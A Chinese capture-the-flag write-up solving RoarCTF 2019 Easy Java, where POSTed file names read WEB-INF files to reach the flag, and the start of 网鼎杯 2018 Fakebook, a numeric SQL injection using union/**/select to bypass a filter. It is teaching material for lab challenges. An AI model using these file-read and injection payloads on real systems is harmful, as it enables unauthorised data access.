 ## [RoarCTF 2019]Easy Java

这是一道java题目，利用了文件读取漏洞

> 点击help，发现有一个help.docx文件，尝试进行下载。
>
> 发现用户名和密码都是通过post传递的，尝试post读取文件

下载下来文件里没有flag

尝试读取web.xml文件

```
filename=/WEB-INF/web.xml
```

![image-20240202203633477](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240202203633477.png)

发现和flag有关的类，进行读取

```
filename=/WEB-INF/classes/com/wm/ctf/FlagController.class
```

![image-20240202203842824](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240202203842824.png)

文件里发现flag，进行base解码，得到flag

## [网鼎杯 2018]Fakebook

考点：sql数字型注入，php序列化，file协议,爬虫协议，源码备份，SSRF

> 在view.php中发现数字型注入
>
> ```
> no=1 or 1=1 回显成功
> no=1 or 1=2 报错
> ```

> 进行读取数据库数据

测试字段数

```
no=-1 order by 1,2,3,4# 一共四个字段
```

读取数据库名（这里`union select`整体被过滤了）

```
-1 union/**/select 1,2,3,4
```

观察页面，发现只有2位置有回显，接着写语句

爆当前数据库 

```
-1 union/**/select 1,database(),3,4
fakebook
```
